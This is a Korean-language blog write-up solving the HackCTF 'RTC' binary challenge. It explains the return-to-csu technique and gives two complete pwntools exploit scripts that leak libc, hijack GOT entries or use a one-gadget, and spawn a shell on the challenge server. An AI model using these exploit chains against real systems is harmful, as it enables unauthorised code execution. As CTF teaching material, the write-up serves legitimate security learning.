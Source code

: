 ```yaml
---
title: "[HackCTF]RTC"
date: 2019-12-22
tags: [HackCTF]
categories: [HackCTF]
---
```


Return To Csu에 대해 이론 공부하고 나서 HackCTF RTC를 풀게되었는데 Chaining하는게 좀 재밌었다. 

`__libc_csu_init` 이용해서 Exploit하는건데 이해하는대로 풀었다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-40h]

  setvbuf(stdin, 0LL, 2, 0LL);
  write(1, "Hey, ROP! What's Up?\n", 0x15uLL);
  return read(0, &buf, 512uLL);
}
```

일반적인 ROP를 할 수없는게 gadget이 부족하기 때문에 RTC를 이용하면 된다.

main 함수에서 buf 크기가 0x40인데 512만큼 받으니까 ret을 `__libc_csu_init ` 주소로 돌려서 Chaining 해주면서 풀면 된다.

![](https://user-images.githubusercontent.com/32904385/71322849-b767ed00-250f-11ea-8c4b-68c2d8da8d67.png)

`0x4006BA` 부터 pop으로 레지스터 세팅해주고  `0x4006A0` 으로 `ret` 을 해줘서 인자 `edi`, `rsi` , `rdx` 를 각각 세팅해주고 함수  `0x4006A9` 에서 호출하기 할 수 있다. 

`0x4006BA` 부터 레지스터에 넣는거 이용해서 `0x4006A9` 에서 `call`하면 된다.

Chaining 계속하려면 `add rbx, 1` , `cmp rbx, rbp` 를 맞춰줘야 하니까 pop 레지스터 세팅해주는 곳에서 rbx를 0으로 맞춰서 `call qword ptr [r12+rbx*]` 에서 r12에 got주소 넣고 rbx에 0을 넣으면 그 함수를 실행할 수 있다.

그러니까 rbx에 0을 넣으니까 rbp는 1로 맞춰줘야 계속 Chaining을 할 수 있다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
p = remote('ctf.j0n9hyun.xyz',3025)
#p = process('./rtc')
e = ELF('./rtc')
libc = ELF('./libc.so.6', checksec=False)
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)

csu_pop = 0x00000000004006BA
csu_call = 0x00000000004006A0

payload = 'A'*72
payload += p64(csu_pop) # set
payload += p64(0) + p64(1) + p64(e.got['write']) + p64(8) + p64(e.got['write']) + p64(1) + p64(csu_call)
# rbx -> 0 
# rbp -> 1
# r12 -> write_got -> call
# r13 -> rdx -> write(?,?,8)
# r14 -> rsi -> write(?,write_got,8)
# r15d -> edi -> write(1,write_got,8)
# ret -> csu_call
payload += p64(csu_pop) # set
payload += p64(0) + p64(1) + p64(e.got['read']) + p64(10) + p64(e.bss()) + p64(0) + p64(csu_call)
# rbx -> 0 
# rbp -> 1
# r12 -> read_got -> call
# r13 -> rdx -> read(?,?,10)
# r14 -> rsi -> write(?,bss,10)
# r15d -> edi -> write(0,bss,10)
# ret -> csu_call
payload += p64(csu_pop) # set
payload += p64(0) + p64(1) + p64(e.got['read']) + p64(8) + p64(e.got['read']) + p64(0) + p64(csu_call)
# rbx -> 0 
# rbp -> 1
# r12 -> read_got -> call
# r13 -> rdx -> read(?,?,8)
# r14 -> rsi -> write(?,read_got,8)
# r15d -> edi -> write(0,read_got,8)
# ret -> csu_call
payload += p64(csu_pop)
payload += p64(0) + p64(1) + p64(e.got['read']) + p64(0) + p64(0) + p64(e.bss()) + p64(csu_call)
# rbx -> 0 
# rbp -> 1
# r12 -> read_got -> call -> system
# r13 -> rdx -> 0
# r14 -> rsi -> 0
# r15d -> edi -> system(bss) -> system("/bin/sh\x00")
# ret -> csu_call
p.sendafter('?\n',payload)

libc_base = u64(p.recvuntil('\x7f').ljust(8,'\x00')) - libc.symbols['write']
log.info('write : ' + hex(libc_base))

p.sendline('/bin/sh\x00')

p.sendline(p64(libc_base + libc.symbols['system']))

p.interactive()
```

다른 방법으론 oneshot gadget 이용해서 풀었다. libc base 구했으니까 main으로 리턴해주고 원샷 날려주면 된다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
p = remote('ctf.j0n9hyun.xyz',3025)
# p = process('./rtc')
e = ELF('./rtc')
libc = ELF('./libc.so.6', checksec=False)
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)

csu_pop = 0x00000000004006BA
csu_call = 0x00000000004006A0

payload = 'A'*72
payload += p64(csu_pop) 
payload += p64(0) + p64(1) + p64(e.got['write']) + p64(8) + p64(e.got['write']) + p64(1) + p64(csu_call)
payload += p64(csu_pop)
payload += p64(0) + p64(1) + p64(0) + p64(0) + p64(0) + p64(0) + p64(e.symbols['main'])

p.sendafter('?\n',payload)

libc_base = u64(p.recvuntil('\x7f').ljust(8,'\x00')) - libc.symbols['write']
log.info('libc_base : ' + hex(libc_base))

oneshot = 0x4526a
payload2 = 'A'*72
payload2 += p64(libc_base + oneshot) 

p.sendafter('?\n',payload2)
p.interactive()
```

